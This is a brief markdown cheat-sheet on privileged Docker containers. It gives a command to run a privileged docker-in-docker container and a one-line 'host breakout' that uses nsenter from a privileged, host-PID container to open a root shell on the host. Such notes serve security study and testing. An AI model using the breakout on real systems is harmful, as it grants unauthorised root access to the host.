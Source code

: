 # Privileged Containers

Running privileged containers:

```bash
docker run -d --rm --privileged docker:stable-dind
```

Host breakout from privileged container:

```bash
docker run --rm --privileged --pid=host -it alpine:3.8 \
    nsenter -t 1 -m -u -n -i sh
```